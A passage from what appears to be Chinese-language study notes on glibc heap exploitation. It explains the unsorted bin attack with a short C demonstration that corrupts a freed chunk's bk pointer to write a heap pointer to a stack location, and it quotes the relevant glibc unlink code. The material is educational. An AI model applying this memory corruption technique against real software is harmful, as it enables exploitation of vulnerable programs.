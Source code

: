 unsorted bin伪造后的情况为：victim->stack->null，此时再申请一个0x100字节的堆，先到unsorted bin中寻找，找到victim 由于victim->size被修改为了0x20，不满足大小要求，遍历victim->bk所指向的堆，找到栈中伪造的chunk进行分配。

伪造后堆情况：

![](../image/2019-10-10-堆利用记录/39.jpg)

### unsorted_bin_attack.c

```
#include <stdio.h>
#include <stdlib.h>

int main(){
	
	unsigned long stack_var=0;
	
	unsigned long *p=malloc(400);
	
	malloc(500);

	free(p);
	
	//------------VULNERABILITY-----------

	p[1]=(unsigned long)(&stack_var-2); //通过堆溢出对chunk p的bk进行改写，改写到任意位置

	//------------------------------------

	malloc(400);//next chunk的fd被改写，即stack_var内容被写入一个堆指针
}
```
unsorted bin 是一个双向链表，在分配时会通过unlink操作将chunk从链表中摘除，可以通过控制unsorted bin的bk指针，向任意位置写入一个指针。

```
/* remove from unsorted list */
          unsorted_chunks (av)->bk = bck;
          bck->fd = unsorted_chunks (av);
```

堆溢出伪造victim的bk，调试信息如下：

